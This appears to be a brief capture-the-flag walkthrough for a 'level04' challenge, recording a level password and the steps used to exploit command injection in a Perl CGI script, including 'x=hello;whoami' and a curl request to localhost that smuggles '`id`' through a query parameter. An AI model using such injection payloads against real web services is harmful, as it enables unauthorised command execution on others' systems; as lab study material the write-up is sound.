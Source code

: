 level04:qi0maab88jeaj46qoumi7maus

we can run commands through the perl script
`./level04.pl x=hello;whoami` but only as level04

`ps aux` -> apache is running
`cat /etc/apache2/ports.conf` -> get port configured for it
`curl localhost:4747/level04.pl?x=`id`` -> try to curl it
IT WORKS